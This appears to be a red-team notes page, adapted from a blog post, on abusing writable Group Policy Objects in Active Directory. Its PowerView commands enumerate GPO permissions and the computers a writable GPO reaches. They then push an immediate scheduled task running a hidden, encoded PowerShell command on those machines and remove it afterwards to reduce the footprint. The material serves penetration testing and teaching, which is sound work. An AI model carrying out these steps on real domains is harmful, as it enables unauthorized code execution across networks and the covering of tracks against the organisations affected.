 # Abusing GPO Permissions

### GPO Background

* [Group Policy Objects](https://technet.microsoft.com/en-us/windowsserver/bb310732.aspx) are Active Directory containers used to store groupings of policy settings. These objects are then linked to specific sites, domains, or most commonly specific organizational units (OUs).
* [_By default, computer Group Policy is updated in the background every 90 minutes, with a random offset of 0 to 30 minutes._](https://technet.microsoft.com/en-us/library/cc940895.aspx)
* &#x20;`PowerView`, the `Get-NetGPO` cmdlet allows for the easy enumeration of all current GPOs in a given domain.

### Enumerate GPOs

```
Get-NetGPO -ComputerName WINDOWS1.testlab.local
```

* The **gpcfilesyspath** field shows you where the configuration for the policy resides.&#x20;
* Let’s enumerate all the permissions for all GPOs in the current domain:

```
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
```

NOTE:  you can also use PowerView’s `Invoke-ACLScanner` to speed up your search. This will search the ACLs for ALL domain objects, and returns results where the `IdentityReference RID` is -1000 or above and also has some times of modification rights on the given object.

* Here’s what a misconfiguration might look like:

<figure><img src="../.gitbook/assets/acl_misconfiguration-768x292.png" alt=""><figcaption></figcaption></figure>

* And here’s how that misconfiguration looks through the Group Policy Management console:

<figure><img src="../.gitbook/assets/gpmc-768x301.png" alt=""><figcaption></figcaption></figure>

* So the `TESTLAB\will` user has modification rights on the GPO with the GUID of `{3EE4BE4E-7397-4433-A9F1-3A5AE2F56EA2}` and display name of `SecurePolicy`. Let’s track this back and see what systems this GPO is applied to:

```
Get-NetOU -GUID "{3EE4BE4E-7397-4433-A9F1-3A5AE2F56EA2}" | %{Get-NetComputer -ADSpath $_}
```

* with edit rights to the GPO, we can force code execution on these machines!

### Weaponizing GPO Edit Rights

* My preference for immediate code execution would be to push out an [‘Immediate’ Scheduled task](https://technet.microsoft.com/en-us/library/dd851779.aspx), which instantly runs and then removes itself, every time group policy refreshes. \

* need to build a schtask .XML template to substitute in our appropriate configuration/commands and then copy it to \<GPO\_PATH>\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml of the GPO we can edit.
* After waiting 1-2 hours for the group policy refresh cycle, we can remove the .xml to minimize our footprint.
* PowerView’s new [**New-GPOImmediateTask**](https://github.com/PowerShellMafia/PowerSploit/blob/26a0757612e5654b4f792b012ab8f10f95d391c9/Recon/PowerView.ps1#L5907-L6122) function should take care of all this for you. The **-TaskName** argument is required, **-Command** specified the command to run (which defaults to powershell.exe), and **-CommandArguments** specifies the arguments for the given binary.

```
New-GPOImmediateTask -TaskName Debugging -GPODisplayName SecurePolicy -CommandArguments '-NoP -NonI -W Hidden -Enc JABXAGMAPQBO...' -Force
```

### Remove the schtask

```
New-GPOImmediateTask -Remove -Force -GPODisplayName SecurePolicy
```

[https://blog.harmj0y.net/redteaming/abusing-gpo-permissions/](https://blog.harmj0y.net/redteaming/abusing-gpo-permissions/)&#x20;
